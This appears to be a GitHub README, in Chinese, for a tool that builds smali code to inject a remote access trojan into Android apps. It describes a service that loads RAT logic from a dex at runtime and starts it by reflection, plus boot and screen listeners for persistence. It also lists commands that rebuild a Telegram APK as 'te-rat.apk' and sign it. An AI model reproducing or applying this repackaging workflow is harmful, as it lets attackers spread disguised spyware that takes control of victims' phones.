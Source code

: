 # insertFRat

此项目用于生成部分需要添加的smali代码，如myService中动态加载包含RAT逻辑的jar并执行，注册屏幕监听事件。

#### 生成方式

在Android Studio中编译生成apk文件，接着使用apktool反编译得到的apk。

```shell
apktool d app-debug.apk
```

进入到反编译生成的app-debug文件夹，进入到app-debug/smali/com/hhm/android/otherapp，理论上需要的smali如下：

- myService.smali、myService$1.smali：在服务中动态加载dex并反射执行initAndStartRat()方法启动RAT逻辑的java代码对应的smali。
- ScreenListener.smali、ScreenListener$1.smali、ScreenListener$ScreenBroadcastReceiver.smali、ScreenListener$ScreenStateListener.smali：屏幕事件监听。
- BootReceiver.smali：开机或重启完成监听。

### add
-gradlew makeJar
-dx --dex --output ratdex.jar  rat.jar
-java -jar apktool_2.4.1.jar d app-debug.apk
-java -jar apktool_2.4.1.jar b .\Telegram_v6.3.0_apkpure.com -o te-rat.apk
-jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keypass 123456 -storepass 123456 -keystore demo.keystore te-rat.apk demo.keystore

